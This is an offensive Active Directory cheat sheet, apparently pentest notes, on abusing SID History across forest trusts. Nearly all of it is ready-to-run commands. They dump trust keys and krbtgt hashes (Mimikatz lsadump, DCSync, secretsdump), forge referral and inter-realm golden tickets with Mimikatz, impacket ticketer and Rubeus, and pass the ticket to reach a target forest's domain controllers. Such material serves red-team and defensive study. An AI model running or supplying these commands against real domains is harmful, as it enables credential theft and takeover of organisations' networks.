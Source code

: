 # Forest to Forest - Extra SID (SID History \ TREAT_AS_EXTERNAL)

## SID History Attacks

If there is no SID filtering, it is possible to specify any privileged SID of the target forest in the SID History field. Otherwise, with partial filtering, an RID > 1000 must be indicated.

### 1) Get the trust key

    Invoke-Mimikatz -Command '"lsadump::trust /patch"'

OR

    Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

## Linux

    secretsdump.py -just-dc-user '<current_forest/target_forest$>' domain.local/Administrator:password@<DC>

### 2) If no filtering: forge a referral ticket or an inter-realm Golden Ticket and request for a ST

##### Referral ticket with the Trust Key

    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<current_domain_SID> /sids:<target_domain_SID>-<RID> /rc4:<key> /service:krbtgt /target:targetDomain.local /ticket:trust_forest.kirbi"'

##### Inter-realm Golden Ticket with krbtgt, with pass-the-ticket

    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<current_domain_SID> /sids:<target_domain_SID>-<RID> /krbtgt:<krbtgt_hash> /ptt"'

##### For a specific user different than the Administrator (not RID 500)

    Invoke-Mimikatz -Command '"kerberos::golden /user:user1 /domain:domain.local /sid:<current_domain_SID> /id:<user1_RID> /rc4:<trust_key> /service:krbtgt /target:targetDomain.local /ticket:trust_forest.kirbi"'

    ./Rubeus.exe asktgs /ticket:trust_forest.kirbi /service:cifs/dc.targetDomain.local /dc:dc.targetDomain.local /ptt

## Linux

#Referral ticket

    ticketer.py -domain domain.local -domain-sid <domain_SID> -extra-sid <target_domain_SID>-<RID> -aesKey <aes_trust_key> -spn "krbtgt/targetDomain.local" <target_user>

##### Inter-realm Golden Ticket
    
    ticketer.py -domain domain.local -domain-sid <domain_SID> -extra-sid <target_domain_SID>-<RID> -nthash <krbtgt_hash> <target_user>

    export KRB5CCNAME=./ticket.ccache

    getST.py -k -no-pass -spn CIFS/dc.targetDomain.local -dc-ip <target_DC_IP> targetDomain.local/user

### 3) If there is SID filtering, same thing as above but with RID > 1000 (for example, Exchange related groups are sometimes highly privileged, and always with a RID > 1000). Otherwise, get the foreignSecurityPrincipal. These users of the current domain are also members of the trusting forest, and they can be members of interesting groups:

##### These SIDs are members of the target domain

    Get-DomainObject -Domain targetDomain.local | ? {$_.objectclass -match "foreignSecurityPrincipal"}

##### The found SIDs can be search in the current forest

    Get-DomainObject |? {$_.objectSid -match "<SID>"}

Then, it is possible to forge a referral ticket for this user and access the target forest with its privileges.

## Linux

##### These SIDs are members of the target domain

    ldeep ldap -u user1 -p password -d domain.local -s <target_LDAP_server_IP> search '(objectclass=foreignSecurityPrincipal)' | jq '.[].objectSid'

##### The found SIDs can be search in the current forest

    ldeep ldap -u user1 -p password -d domain.local -s <LDAP_server_IP> search '(objectSid=<object_SID>)'

#### 1) Golden Ticket

    Get-DomainSID -Domain DOMAIN (Powerview)

    Get-DomainSID -Domain TARGET_DOMAIN (Powerview)

    Get-DomainGroupMember -Identity "GROUP" -Domain TARGET_DOMAIN (SID filtering, Find group with SID > 1000) (Powerview)

    impacket-ticketer -nthash KRBTGT_HASH -domain-sid FROM_DOMAIN_SID -domain FROM_DOMAIN -extra-sid TO_DOMAIN-GROUP_ID goldenuser (Group ID must be > 1000)

## OR 

    mimikatz lsadump::dcsync /domain:DOMAIN /user:DOMAIN\krbtgt

    mimikatz kerberos::golden /user:Administrator /krbtgt:KRBTGT_HASH /domain:DOMAIN /sid:USER_SID /sids:ROOT_DOMAIN_SID-GROUP_SID_SUP_1000 /ptt

#### 2) Trust Ticket

### Get the trust ticket in the ntds (TARGET_DOMAIN$)

    impacket-ticketer -nthash TRUST_KEY -domain-sid FROM_DOMAIN_SID -domain FROM_DOMAIN -extra-sid TO_DOMAIN-GROUP_ID -spn krbtgt/TO_DOMAIN trustuser (Group id must be > 1000)

    impacket-getST -k -no-pass -spn cifs/DC_FQDN PARENT_DOMAIN/trustfakeuser@PARENT_DOMAIN -debug

### With both these attacks we perform lateral movement with Pass-the-Ticket
